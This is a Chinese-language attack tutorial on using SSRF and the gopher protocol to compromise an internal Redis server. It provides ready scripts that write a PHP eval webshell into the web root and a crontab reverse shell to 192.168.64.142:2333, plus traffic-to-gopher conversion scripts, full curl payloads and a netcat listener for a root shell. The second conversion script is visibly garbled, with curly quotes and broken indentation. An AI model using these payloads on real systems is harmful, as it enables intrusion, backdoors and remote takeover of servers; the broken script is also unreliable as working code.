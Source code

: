 ```yaml
---
title: "gopher 攻击内网redis"
id: zhfly3581
---
```


#### gopher 攻击内网redis

> 未授权访问redis条件存在限制，若开启了protected-mode，外网访问是不具有写入权限的；若绑定了127.0.0.1，那么外网将无法访问；但如果存在SSRF漏洞，那么通过Gopher协议可对本地redis进行攻击
> 
> Gopher协议是HTTP协议出现之前，在Internet上常常和常用的一个协议。当然现在Gopher协议已经慢慢淡出历史.Gopher
> 协议可以做很多事情，特别是在SSRF中可以发挥很多重要的作用。利用此协议可以攻击内网的FTP，Telnet，Redis，Memcache，也可以进行GET，POST请求。这无疑极大拓宽了SSRF的攻击面。
> 
> payload：gopher://www.0-sec.org:port/_payload

##### 写入webshell

将一下命令打包成gopher.sh文件

```
redis-cli -h $1 -p $2 set 1 '<?php eval($_POST["pass"]);?>'
redis-cli -h $1 -p $2 config set dir /var/www/html
redis-cli -h $1 -p $2 config set dbfilename bbb.php
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit 
```

使用socat进行端口转发

```
socat -v tcp-listen:4444,fork tcp-connect:localhost:6379 
```

将本地的4444端口转发到本地的6379端口。访问该服务器的4444端口，访问的其实是该服务器的6379端口。

执行`./gopher.sh 127.0.0.1 4444`，抓取到数据并写入`1.txt`：

![image](../img/25203ca53ff651f9cfff06972886415a.png)

**将捕捉到的转换为gopher格式**

**python转换脚本：**

```
f = open('1.txt', 'r')
s = ''
for line in f.readlines():
        line = line.replace(r"\r", "%0d%0a")
        line = line.replace("\n", '')
        s = s + line
print s.replace("$", "%24") 
```

此处需要注意，使用python脚本将流量内容转换后，还需要将一句话中的`$、?、;、[、]`这几个字符url编码，否则会提示`curl: (3) [globbing] illegal character in range specification at pos 103`

如果写入免杀的一句话，一步步fuzz即可。

**模拟ssrf访问**：

```
[root@localhost xm]# curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a%243%0d%0aset%0d%0a%241%0d%0a1%0d%0a%2429%0d%0a%3c%3fphp eval(%24_POST%5b"pass"%5d)%3b%3f%3e%0d%0a*4%0d%0a%246%0d%0aconfig%0d%0a%243%0d%0aset%0d%0a%243%0d%0adir%0d%0a%2413%0d%0a/var/www/html%0d%0a*4%0d%0a%246%0d%0aconfig%0d%0a%243%0d%0aset%0d%0a%2410%0d%0adbfilename%0d%0a%247%0d%0abbb.php%0d%0a*1%0d%0a%244%0d%0asave%0d%0a*1%0d%0a%244%0d%0aquit%0d%0a' 
```

![image](../img/43941514687041d5423bbd51761ade66.png)

成功在`/var/www/html/`下生成`bbb.php`

#### 反弹shell

> 文件名必须为root，此处靶机环境为centos7，其他Linux需要修改目录
> 
> 首先要明确第一点，用写入crontab的方式要求redis必须是root用户启动，否则无法正常执行

将下列内容写入gopher.sh中：

```
echo -e "\n\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.64.142 0>&1\n\n\n"|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir /var/spool/cron/
redis-cli -h $1 -p $2 config set dbfilename root
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit 
```

**本地监听**：

```
socat -v tcp-listen:4444,fork tcp-connect:localhost:6379 
```

执行`gopher.sh`并捕捉到流量，将其写入至`1.txt`：

![image](../img/17caee7f9d4b4e6b6fcc522b7e89ac91.png)

**将捕捉到的转换为gopher格式**

**python转换脚本：**

```
#coding: utf-8
import sys

exp = ‘’ `with open(sys.argv[1]) as f:

for line in f.readlines():

if line[0] in ‘><+’:

continue

elif line[-3:-1] == r’\r’:

if len(line) == 3:

exp = exp + ‘%0a%0d%0a’

else:

line = line.replace(r’\r’, ‘%0d%0a’)

line = line.replace(’\n’, ‘’)

exp = exp + line

elif line == ‘\x0a’:

exp = exp + ‘%0a’

else:

line = line.replace(’\n’, ‘’)

exp = exp + line

print exp` 
```

转换结果为：

```
*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$63%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/192.168.64.142/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a%0a%0a 
```

P.S. 需要注意的是，如果要换IP和端口，前面的$63也需要更改，$63表示字符串长度为63个字节

**模拟ssrf访问**：

```
[root@localhost xm]# curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$63%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/192.168.64.142/2333 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a%0a%0a'
* About to connect() to 127.0.0.1 port 6379 (#0)
*   Trying 127.0.0.1...
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
+OK
+OK
+OK
+OK 
```

在攻击机中`nc -lvp 2333`获得root权限shell

![image](../img/30983be7778194947bb7588c7fcb8faa.png)